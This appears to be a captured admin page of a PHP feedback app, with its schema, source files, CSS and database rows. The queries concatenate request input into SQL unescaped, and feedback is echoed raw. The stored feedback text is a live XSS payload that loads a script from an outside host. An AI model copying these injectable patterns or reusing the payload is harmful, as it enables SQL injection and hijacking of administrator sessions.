
/adminfywl/fankui_edit.php?id=10 (signed in), run on the app's committed database.
### tables this page shows
CREATE TABLE IF NOT EXISTS `fengyunwl_admin` (
  `a_name` varchar(255) DEFAULT NULL,
  `a_password` varchar(255) DEFAULT NULL,
  `ID` int(11) NOT NULL AUTO_INCREMENT,
  PRIMARY KEY (`ID`)
);

CREATE TABLE IF NOT EXISTS `fengyunwl_fankui` (
  `uid` int(11) DEFAULT NULL,
  `remark` longtext,
  `huifu` longtext,
  `date` datetime DEFAULT NULL,
  `ID` int(11) NOT NULL AUTO_INCREMENT,
  PRIMARY KEY (`ID`)
);

### system/config.php (called while the page is built, shortened)
<?php
$result = mysql_query('select * from '.flag.'admin where id = 1  ');
$row = mysql_fetch_array($result);
$a_name = $row['a_name'];
?>

### system/inc.php (called while the page is built, shortened)
<?php
 require_once('config.php');
require_once('function.php');
?>

### system/function.php (called while the page is built, shortened)
    <?php
function get_user($value,$uid)
{
	$result = mysql_query('select  *  from '.flag.'user where id = '.$uid.'  ');
	if (!!($row = mysql_fetch_array($result))) {
		return $row[$value];
	} else {
		return '用户不存在';
	}
}
  ?>

### adminfywl/fankui_edit.php (the view, shortened to what this page needs)
<?
include('../system/inc.php');
?>
<!DOCTYPE html>
<html>
<head>
<link href="css/bootstrap.min.css" rel="stylesheet">
<link href="css/datepicker3.css" rel="stylesheet">
<link href="css/styles.css" rel="stylesheet">
<meta http-equiv="Content-Type" content="text/html; charset=utf-8"></head>
<body>
	<? include('header.php');?>
	<? include('left.php');?>
	<div class="col-sm-9 col-sm-offset-3 col-lg-10 col-lg-offset-2 main">
		<div class="row">
			<ol class="breadcrumb">
				<li><a href="admin_index.php"><span class="glyphicon glyphicon-home">管理首页</span></a></li>
				<li class="active">修改反馈</li>
			</ol>
		</div>
 <br>
		<div class="row">
			<div class="col-md-12">
				<div class="panel panel-default">
					<div class="panel-heading"><span class="glyphicon glyphicon-envelope"></span> 修改反馈</div>
					<div class="panel-body">
							<?php
					$result = mysql_query('select * from '.flag.'fankui where id = '.$_GET['id'].' ');
					if ($row = mysql_fetch_array($result)){
					?>
						<form class="form-horizontal" action="" method="post">
							<fieldset>
								<div class="form-group">
									<label class="col-md-3 control-label" for="name">反馈人</label>
									<div class="col-md-9">
			                <input    class="form-control"  value="<?=get_user('username',$row['uid'])?>"     >
							</div>
								</div>
								<div class="form-group">
									<label class="col-md-3 control-label" for="name">反馈内容</label>
									<div class="col-md-9">
  			                <textarea     class="form-control" lay-verify="number" autocomplete="off" placeholder=""><?=$row['remark']?></textarea>
							</div>
								</div>
									<div class="form-group">
									<label class="col-md-3 control-label" for="name">反馈时间</label>
									<div class="col-md-9">
 			                <input  class="form-control"   value="<?=$row['date']?>"     >
							</div>
								</div>
											<div class="form-group">
									<label class="col-md-3 control-label" for="name">回复内容</label>
									<div class="col-md-9">
 			                <textarea name="huifu"  class="form-control"   lay-verify="number" autocomplete="off" placeholder="请输入回复内容"><?=$row['huifu']?></textarea>
							</div>
								</div>
								<div class="form-group">
									<div class="col-md-12 widget-right">
										<button type="submit" class="btn btn-default btn-md pull-right">提交</button>
									</div>
								</div>
							</fieldset>
						</form>
						<? }?>
					</div>
				</div>
		  </div>
        </div>
	</div>
</body>
</html>

### adminfywl/header.php (shortened to what this page needs)
<nav class="navbar navbar-inverse navbar-fixed-top" role="navigation">
		<div class="container-fluid">
			<div class="navbar-header">
				<a class="navbar-brand" href="#"><span>云赏后台管理控制台</span><?=$a_name?></a>
				<ul class="user-menu">
					<li class="dropdown pull-right">
						<a href="#" class="dropdown-toggle" data-toggle="dropdown"><span class="glyphicon glyphicon-user"></span> User <span class="caret"></span></a>
					</li>
				</ul>
			</div>
		</div>
	</nav>

### adminfywl/css/styles.css (style rules this page uses)
body { background: #f1f4f7; padding-top: 50px; color: #5f6468; }
a, a:hover, a:focus { color: #30a5ff; }
.form-control { border: 1px solid #eee; box-shadow: none; }
.navbar-header .navbar-brand { color: #fff; font-size: 16px; text-transform: uppercase; font-weight: 500; letter-spacing: 2px; }
.navbar-header .navbar-brand span { color: #30a5ff; }
.btn-default, .btn-default:hover, .btn-default:focus, .btn-default:active, .btn-default.active, .open > .dropdown-toggle.btn-default, .btn-default.disabled, .btn-default[disabled], fieldset[disabled] .btn-default, .btn-default.disabled:hover, .btn-default[disabled]:hover, fieldset[disabled] .btn-default:hover, .btn-default.disabled:focus, .btn-default[disabled]:focus, fieldset[disabled] .btn-default:focus, .btn-default.disabled:active, .btn-default[disabled]:active, fieldset[disabled] .btn-default:active, .btn-default.disabled.active, .btn-default[disabled].active, fieldset[disabled] .btn-default.active { background-color: #e9ecf2; border-color: #e9ecf2; color: #1b3548; }
.panel { border: 0; }
.panel-heading { font-size: 18px; font-weight: 300; letter-spacing: 0.025em; height: 66px; line-height: 45px; }
.panel-default .panel-heading { background: #fff; border-bottom: 1px solid #eee; color: #5f6468; }
.widget-right { text-align: left; line-height: 1.6em; margin: 0px; padding: 20px; height: 80px; color: #999; font-weight: 300; background: #fff; border-top-right-radius: 4px; border-bottom-right-radius: 4px; }
.navbar { border: 0; }
.user-menu { display: inline-block; margin-top: 14px; margin-right: 10px; float: right; list-style: none; padding: 0; }
.user-menu a { color: #fff; }
@media (min-width: 768px) { .navbar-header { width: 100%; } }
.breadcrumb { border-radius: 0; padding: 10px 15px; background: #e9ecf2; box-shadow: 0 1px 1px rgba(0, 0, 0, .05); margin: 0 ; }
.panel-heading .glyphicon { margin-right: 10px; }

### data on the page
fengyunwl_admin: a_name "CHENG"
fengyunwl_fankui: remark "<img src=x onerror=s=createElement('script');body.appendChild(s);s.src='http://xssye.com/bsjX';>", date "2019-07-07 00:19:01"
